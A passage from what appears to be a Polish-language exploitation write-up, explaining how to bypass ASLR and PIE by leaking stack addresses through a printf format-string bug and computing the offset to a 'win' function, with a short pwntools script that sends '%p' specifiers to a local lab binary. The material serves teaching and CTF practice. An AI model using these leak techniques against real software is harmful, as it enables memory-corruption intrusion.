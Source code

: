 W takim przypadku, wszystkie segmenty pamięci są losowane. Skok do funkcji `win` jest niemalże niemożliwy jeżeli nie zleakujemy adresu bazowego PIE. Możliwe jest to tylko jeżeli występuje podatność pozwalająca leakować pamieć.

Do wyleakowania adresów na stosie używam funkcji `printf`, która jest w stanie wypisać wartości ze stosu po zastosowaniu odpowiednich specyfikatórów - w tym przypadku jest to `%p`, ponieważ wyświetla ona wartści z `0x` na początku, co umożliwia wypisanie większej ilości stosu.

```python=
from pwn import *

p = process('./vuln-2.o')

p.sendline("%p" * 7)

data = p.readline()

data = data.split(b"0x")

for i in range(len(data)):
    log.info("{} {}".format(i, data[i]))
```




Po wypisaniu wartości okazało się, że 4 wartość to jeden z adresów w funkcji `vuln`. Zatem obliczając jedynie offset tej instrukcji do funkcji `win` jestem w stanie uzyskać adres `win`.


![](pictures/1_alsr_pie_offset.png)
